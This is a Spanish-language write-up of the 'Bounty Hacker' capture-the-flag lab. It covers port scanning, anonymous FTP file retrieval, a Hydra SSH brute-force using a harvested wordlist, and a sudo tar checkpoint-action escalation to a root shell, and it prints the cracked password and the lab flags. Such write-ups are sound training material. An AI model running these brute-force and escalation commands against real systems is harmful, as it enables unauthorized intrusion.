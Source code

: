 # Bounty Hacker

## Escaneo de puertos

Realizamos un mapeo de puertos para identificar servicios disponibles con `nmap`:

```bash
sudo nmap -sV -T4 -p- 10.10.85.142
```

Se detectan tres puertos abiertos:

* 21: FTP
* 22: SSH
* 80: HTTP

![](images/image.png)

## Acceso por FTP

Conectamos anónimamente al FTP y desactivamos el modo pasivo para que sea el servidor quien inicie la conexión:

![](images/image-1.png)

Listamos los archivos y los descargamos con `get`:

![](images/image-2.png)

En `task.txt` aparece un usuario llamado `lin`:

![](images/image-3.png)

Y en `locks.txt` varias posibles contraseñas:

![](images/image-4.png)

## Ataque de fuerza bruta con Hydra

Usamos `locks.txt` como diccionario contra SSH para el usuario `lin`:

```bash
hydra -l lin -P locks.txt ssh://10.10.85.142
```

La contraseña obtenida es **RedDr4gonSynd1cat3**.

![](images/image-5.png)

## Acceso por SSH

Accedemos al sistema con `lin`:

```bash
ssh lin@10.10.85.142
```

![](images/image-6.png)

Leemos la flag de usuario en `user.txt`:

![](images/image-7.png)

```
THM{CR1M3_SyNd1C4T3}
```

## Escalada de privilegios

Comprobamos los permisos de sudo del usuario:

```bash
sudo -l
```

![](images/image-8.png)

Vemos que `/bin/tar` puede usarse con privilegios según GTFOBins:

![](images/image-9.png)

Ejecutamos:

```bash
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

![](images/image-10.png)

Obtenemos shell como root, navegamos a `/root` y leemos la flag:

![](images/image-11.png)

```
THM{80UN7Y_h4cK3r}
```
